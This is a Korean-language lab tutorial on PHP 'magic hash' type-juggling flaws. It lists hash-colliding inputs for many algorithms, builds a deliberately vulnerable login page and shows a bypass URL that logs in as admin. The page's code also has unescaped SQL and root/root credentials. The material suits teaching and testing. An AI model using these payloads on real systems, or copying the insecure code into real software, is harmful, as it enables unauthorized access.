 # Magic Hash

"0e123" == "0e456"과 같이 0e로 시작하고 0-9로 이루어진 문자열끼리 연산이 이루어질 때, 0\*10^123과 0\*10^456의 비교로 이루어져 의도하지 않게 프로그램이 진행될 수 있다.

# **INDEX**

**1. [Magic Hash Table](#Magic-Hash-Table)**

**2. [환경 구성](#환경-구성)**

**3. [로그인 인증 우회](#로그인-인증-우회)**

# **Magic Hash Table**

|Hash Type|Hash Length|"Magic" Number / String|Magic Hashes|
|:---:|:---:|:---:|:---:|
|md2|32|505144726|0e015339760548602306096794382326|
|md4|32|48291204|0e266546927425668450445617970135|
|md5|32|240610708|0e462097431906509019562988736854|
|sha1|40|10932435112|0e07766915004133176347055865026311692244|
|sha224|56|–|–|
|sha256|64|–|–|
|sha384|96|–|–|
|sha512|128|–|–|
|ripemd128|32|315655854|0e251331818775808475952406672980|
|ripemd160|40|20583002034|00e1839085851394356611454660337505469745|
|ripemd256|64|–|–|
|ripemd320|80|–|–|
|whirlpool|128|–|–|
|tiger128,3|32|265022640|0e908730200858058999593322639865|
|tiger160,3|40|13181623570|00e4706040169225543861400227305532507173|
|tiger192,3|48|–|–|
|tiger128,4|32|479763000|00e05651056780370631793326323796|
|tiger160,4|40|62241955574|0e69173478833895223726165786906905141502|
|tiger192,4|48|–|–|
|snefru|64|–|–|
|snefru256|64|–|–|
|gost|64|–|–|
|adler32|8|FR|00e00099|
|crc32|8|2332|0e684322|
|crc32b|8|6586|0e817678|
|fnv132|8|2186|0e591528|
|fnv164|16|8338000|0e73845709713699|
|joaat|8|8409|0e074025|
|haval128,3|32|809793630|00e38549671092424173928143648452|
|haval160,3|40|18159983163|0e01697014920826425936632356870426876167|
|haval192,3|48|48892056947|0e4868841162506296635201967091461310754872302741|
|haval224,3|56|–|–|
|haval256,3|64|–|–|
|haval128,4|32|71437579|0e316321729023182394301371028665|
|haval160,4|40|12368878794|0e34042599806027333661050958199580964722|
|haval192,4|48|–|–|
|haval224,4|56|–|–|
|haval256,4|64|–|–|
|haval128,5|32|115528287|0e495317064156922585933029613272|
|haval160,5|40|33902688231|00e2521569708250889666329543741175098562|
|haval192,5|48|52888640556|0e9108479697641294204710754930487725109982883677|

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |
| mariadb       | 10.3.34-0ubuntu0.20.04.1  |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php mariadb-server php-mysql
```

root비밀번호를 설정하고 데이터베이스, 테이블을 생성한 뒤 데이터를 넣자.

```sh
root@ubuntu:~# mysql_secure_installation
Enter current password for root (enter for none):
Set root password? [Y/n] Y
New password:
Re-enter new password:
Remove anonymous users? [Y/n] Y
Disallow root login remotely? [Y/n] n
Remove test database and access to it? [Y/n] Y
Reload privilege tables now? [Y/n] Y
root@ubuntu:~# mysql -u root -p'root'
MariaDB [(none)]> create database test;
MariaDB [(none)]> use test;
MariaDB [test]> create table user (id varchar(30), pw varchar(255));
MariaDB [test]> insert into user(id,pw) values('admin',MD5('QLTHNDT'));
```

생성한 데이터베이스로 접근할 수 있는 권한을 부여하자.

```sh
MariaDB [(none)]> grant all privileges on test.* to 'root'@localhost identified by 'root';
MariaDB [(none)]> flush privileges;
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=mysqli.so
```

Magic Hash를 사용한 인증에 취약한 페이지를 생성하자.

```php
<?php
	if (isset($_GET['userid']) && isset($_GET['password'])) {
		$conn = mysqli_connect("localhost", "root", "root", "test");
		if (!$conn) die("mysql connect error : ".mysqli_connect_error($conn));
        $sql = "SELECT id, pw FROM user WHERE id='".$_GET['userid']."'";
		$result = mysqli_query($conn, $sql);
		$row = mysqli_fetch_array($result);
		if ($row['pw'] == md5($_GET['password'])) echo "Welcome ".$row['id'];
		else echo "Login Failed";
		mysqli_close($conn);
	} else {
?>
<html>
	<body>
		<form action="/index.php" method="get">
			<label>ID : </label><input type="text" name="userid" required>
			<label>PW : </label><input type="password" name="password" required>
			<input type="submit" value="login">
		</form>
	</body>
</html>
<?php
	}
?>
```

# **로그인 인증 우회**

password에 240610708을 넣어 md5함수에 의해 0e462097431906509019562988736854값이 나오고, admin의 password는 0e405967825401955372549139051580값이다.

둘의 값은 0으로 같다고 판단되어 if문으로 들어가게 된다.

| data	| value	|
| :---	| :--- 	|
| ID	| admin |
| PW	| 240610708 |
| URL	| http://192.168.0.58/index.php?userid=admin&password=240610708 |

결과는 다음과 같다.

	Welcome admin